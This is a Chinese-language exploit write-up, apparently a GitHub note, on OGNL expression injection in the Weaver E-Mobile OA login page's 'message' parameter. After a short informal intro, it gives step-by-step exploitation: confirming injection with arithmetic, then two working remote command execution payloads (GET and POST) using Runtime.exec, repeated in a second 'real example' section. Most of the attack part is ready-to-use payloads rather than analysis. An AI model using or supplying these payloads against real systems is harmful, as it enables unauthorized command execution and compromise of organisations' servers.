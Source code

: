 ## 泛微e-mobile ognl注入

泛微 E-Mobile 表达式注入?大概?这个洞是一个月以前，老师丢给我玩的，叫我学习一下。
拿到的时候一脸懵逼，什么是表达式注入?去漏洞库看了一圈。
(・。・) 噢！原来可以执行算术运算就是表达式注入呀！
要怎么玩？当计算器用么？～ヾ(*´∇`)ﾉ

一、泛微OA E-Mobile WebServer:**Apache** 通用部分:**apache**
官方有两个OA。一个是**apache**的 一个是**Resin**的。
**Resin**的也找到姿势通杀了，但是**Resin**涉及的站太大了。。。暂时不放出来，因为好像和S2撞洞了？因为045打了WAF的 ，我这个可以执行命令。23333 我也不知道~

```
1、登录页面如下

http://6.6.6.6/login.do?
or
http://6.6.6.6/login/login.do?
```



```
2、当账号密码报错的时候，出现如下URL
login.do?message=104&verify=
```



```
3、直接改写message=的内容，试试算术运算。
http://6.6.6.6/login.do?message=66*66*66-66666
```





```
4、表达式注入。
有的表达式注入是${code}。这里隐藏了${}，所以直接调用就行了。
message=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())
```



```
5、也可以通过`post`提交数据来进行注入，命令执行
`post`如下数据也可以：
message=(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#w=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter()).(#w.print(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(#parameters.cmd[0]).getInputStream()))).(#w.close())&cmd=whoami
```



====================================================================

网络实例

![图片](泛微e-mobile ognl注入/640)

此版本为5.0

首先随便输入账号密码看提示信息

![图片](泛微e-mobile ognl注入/640)

提示为104，地址栏message也显示了104,现在测试一下看看有没有注入

直接获取数据法: 加减乘除

表达式获取数据语法："${标识符}"，但在这个中并不需要${}来包括

- 

```
http://www.xxx.com/login.do?message=104-2&verify=
```

![图片](泛微e-mobile ognl注入/640)

结果可以被执行成功，表示漏洞存在可注入

这里有两个poc可利用

```
message=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())下面需要Post请求message=(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#w=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter()).(#w.print(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(#parameters.cmd[0]).getInputStream()))).(#w.close())&cmd=whoami
```

![图片](泛微e-mobile ognl注入/640)

![图片](泛微e-mobile ognl注入/640)



